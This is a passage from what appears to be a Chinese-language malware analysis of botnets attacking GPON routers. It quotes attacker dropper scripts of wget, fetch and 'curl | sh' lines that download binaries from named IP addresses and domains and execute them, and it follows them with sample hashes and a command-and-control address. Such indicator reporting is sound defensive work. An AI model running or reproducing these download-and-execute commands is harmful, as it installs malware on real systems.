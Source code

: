 
### <a class="reference-link" name="cat%20162.243.211.204/gpon"></a>cat 162.243.211.204/gpon

wget -O /tmp/nsshcron [http://162.243.211.204/nsshcron](http://162.243.211.204/nsshcron); chmod +x /tmp/nsshcron; chmod 700 /tmp/nsshcron; /tmp/nsshcron&amp;<br>
wget -O /tmp/nsshpftp [http://162.243.211.204/nsshpftp](http://162.243.211.204/nsshpftp); chmod +x /tmp/nsshpftp; chmod 700 /tmp/nsshpftp; /tmp/nsshpftp &amp;root[@vultr](https://github.com/vultr):~/gpon# cat 54.39.23.28/1sh<br>
wget -O /tmp/cron [http://51.254.221.129/c/cron](http://51.254.221.129/c/cron); chmod +x /tmp/cron; chmod 700 /tmp/cron; /tmp/cron &amp;<br>
wget -O /tmp/tfti [http://51.254.221.129/c/tfti](http://51.254.221.129/c/tfti); chmod +x /tmp/tfti; chmod 700 /tmp/tfti; /tmp/tfti &amp;<br>
wget -O /tmp/pftp [http://51.254.221.129/c/pftp](http://51.254.221.129/c/pftp); chmod +x /tmp/pftp; chmod 700 /tmp/pftp; /tmp/pftp &amp;<br>
wget -O /tmp/ntpd [http://51.254.221.129/c/ntpd](http://51.254.221.129/c/ntpd); chmod +x /tmp/ntpd; chmod 700 /tmp/ntpd; /tmp/ntpd &amp;<br>
wget -O /tmp/sshd [http://51.254.221.129/c/sshd](http://51.254.221.129/c/sshd); chmod +x /tmp/sshd; chmod 700 /tmp/sshd; /tmp/sshd &amp;<br>
wget -O /tmp/bash [http://51.254.221.129/c/bash](http://51.254.221.129/c/bash); chmod +x /tmp/bash; chmod 700 /tmp/bash; /tmp/bash &amp;<br>
wget -O /tmp/pty [http://51.254.221.129/c/pty](http://51.254.221.129/c/pty); chmod +x /tmp/pty; chmod 700 /tmp/pty; /tmp/pty &amp;<br>
wget -O /tmp/shy [http://51.254.221.129/c/shy](http://51.254.221.129/c/shy); chmod +x /tmp/shy; chmod 700 /tmp/shy; /tmp/shy &amp;<br>
wget -O /tmp/nsshtfti [http://51.254.221.129/c/nsshtfti](http://51.254.221.129/c/nsshtfti); chmod +x /tmp/nsshtfti; chmod 700 /tmp/nsshtfti; /tmp/nsshtfti &amp;<br>
wget -O /tmp/nsshcron [http://51.254.221.129/c/nsshcron](http://51.254.221.129/c/nsshcron); chmod +x /tmp/nsshcron; chmod 700 /tmp/nsshcron; /tmp/nsshcron &amp;<br>
wget -O /tmp/nsshpftp [http://51.254.221.129/c/nsshpftp](http://51.254.221.129/c/nsshpftp); chmod +x /tmp/nsshpftp; chmod 700 /tmp/nsshpftp; /tmp/nsshpftp &amp;

fetch -o /sbin/kmpathd [http://51.254.221.129/c/fbsd](http://51.254.221.129/c/fbsd); chmod +x /sbin/kmpathd; /sbin/kmpathd &amp;<br>
各样本sha256值如下:<br>
5f2b198701ce619c6af308bcf3cdb2ef36ad2a5a01b9d9b757de1b066070dad7 51.254.221.129/c/bash<br>
f12aa6748543fde5d3b6f882418035634d559fc4ab222d6cfb399fd659b5e34f 51.254.221.129/c/cron<br>
54b951302c8da4f9de837a0309cce034a746345d2f96a821c7fc95aa93752d43 51.254.221.129/c/fbsd<br>
2cfa79ce4059bbc5798f6856cf82af7fce1d161d6ef398c07f01a010ba5299ea 51.254.221.129/c/nsshcron<br>
3ca8c549357d6121b96256715709bccf16a249dcc45bad482f6c8123fc75642f 51.254.221.129/c/nsshpftp<br>
d4fba221b1a706dd3c617e33077d1072b37b2702c3235d342d94abfd032ba5f8 51.254.221.129/c/nsshtfti<br>
e2267edd2b70b5f42a2da942fa47cca98e745f2f2ff8f3bbf7baf8b1331c1a89 51.254.221.129/c/ntpd<br>
cfc82255b7e75da9cd01cffdfd671ccf6fafaa3f705041d383149c1191d8bdff 51.254.221.129/c/pftp<br>
5e8398c89631ea8d9e776ec9bdd6348cb32a77b300ab8b4ead1860a6a1e50be7 51.254.221.129/c/pty<br>
948ef8732346e136320813aade0737540ef498945c1ea14f26a2677e4d64fdee 51.254.221.129/c/shy<br>
5477129edd21ce219e2a8ecf4c0930532c73417702215f5813c437f66c8b0299 51.254.221.129/c/sshd<br>
c937caa3b2e6cbf2cc67d02639751c320c8832047ff3b7ad5783e0fd9c2d7bae 51.254.221.129/c/tfti<br>
3138079caea0baa50978345b58b8d4b05db461b808710146d4e0abb5461c97df 162.243.211.204/aiomips<br>
f12aa6748543fde5d3b6f882418035634d559fc4ab222d6cfb399fd659b5e34f 162.243.211.204/cron<br>
5b71ba608e417fb966ff192578d705a05eab4ff825541d9394c97271196cfd69 162.243.211.204/mrt<br>
CNC<br>
192.99.71.250:9090
<li>未知样本1<br>
该样本使用的感染命令如下：<br>
编号6 curl -fsSL [http://ztccds.freesfocss.com/test.txt](http://ztccds.freesfocss.com/test.txt) | sh</li>
